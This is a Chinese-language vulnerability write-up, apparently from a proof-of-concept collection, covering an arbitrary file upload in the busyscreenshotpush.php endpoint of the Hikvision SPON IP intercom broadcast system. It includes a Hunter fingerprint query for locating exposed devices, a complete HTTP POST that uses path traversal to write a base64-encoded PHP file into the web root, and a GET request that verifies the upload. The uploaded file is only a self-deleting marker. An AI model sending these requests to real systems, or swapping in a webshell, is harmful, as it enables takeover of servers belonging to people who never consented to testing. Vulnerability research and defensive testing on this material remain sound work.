 # 海康威视SPON IP网络对讲广播系统busyscreenshotpush存在任意文件上传漏洞

# 一、漏洞简介
<font style="color:rgba(0, 0, 0, 0.9);">Hikvision Intercom Broadcasting System是中国海康威视（Hikvision）公司的一个对讲广播系统。海康威视SPON IP网络对讲广播系统busyscreenshotpush存在任意文件上传漏洞，恶意攻击者可能会上传恶意的后门文件，使服务器失陷。</font>

# <font style="color:rgba(0, 0, 0, 0.9);">二、影响版本</font>
+ 海康威视SPON IP网络对讲广播系统

# 三、资产测绘
+ Hunter：`web.body="vendors/custom/html5.min.js"`
+ 特征

![1704857140903-8dadddb1-8d90-42a6-9179-3cd4dca00c8b.png](./img/eEgA4wXoVftviTL4/1704857140903-8dadddb1-8d90-42a6-9179-3cd4dca00c8b-059681.png)

# 四、漏洞复现
```plain
POST /php/busyscreenshotpush.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.199 Safari/537.36
Content-Length: 181
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1

jsondata[caller]=1&jsondata[callee]=1&jsondata[imagename]=..\..\..\Wnmp\WWW\upload\1_0_xjayuiwqzj.php&jsondata[imagecontent]=PD9waHAgZWNobyAxMTEqMTExOyB1bmxpbmsoX19GSUxFX18pOyA/Pg==
```

![1706074591038-de25acd2-2194-4a9f-aaf3-e39839d43b07.png](./img/eEgA4wXoVftviTL4/1706074591038-de25acd2-2194-4a9f-aaf3-e39839d43b07-196152.png)

上传文件位置

```plain
GET /upload/1_0_xjayuiwqzj.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/40.0.2214.93 Safari/537.36
Accept-Encoding: gzip, deflate
Connection: close
```

![1706074625976-5f0afac2-b803-4816-a5f8-1332bc07b28a.png](./img/eEgA4wXoVftviTL4/1706074625976-5f0afac2-b803-4816-a5f8-1332bc07b28a-044143.png)

[spon-网络对讲-busyscreenshotpush-任意文件上传.yaml](https://www.yuque.com/attachments/yuque/0/2024/yaml/1622799/1709222236974-3b0a8a41-ca74-4d04-8da4-26985556355d.yaml)



> 更新: 2024-02-29 23:57:17  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/omhkq94uk2gotskw>